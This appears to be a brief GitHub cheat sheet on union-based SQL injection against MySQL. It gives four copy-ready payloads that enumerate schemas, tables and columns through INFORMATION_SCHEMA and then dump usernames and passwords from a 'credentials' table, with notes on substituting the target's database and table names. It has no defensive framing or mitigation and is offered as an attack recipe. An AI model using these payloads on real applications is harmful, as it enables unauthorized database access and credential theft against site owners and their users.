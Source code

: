 # sql-injection

### Union Base SQL Injection
##### Schema,Schemata check

      mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

#### Step 1: Schema check

     cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

#### Step 2: Tables check

      cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

Here , dev is database name which will replace to your target database name

#### Step3: Columns check

      cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

Here , credentials is table name whick will replace to your target table name

#### Step4: Dum Data from table:

      cn' UNION select 1, username, password, 4 from dev.credentials-- -

Where username and password are column name , dev is database name , credentials is table name

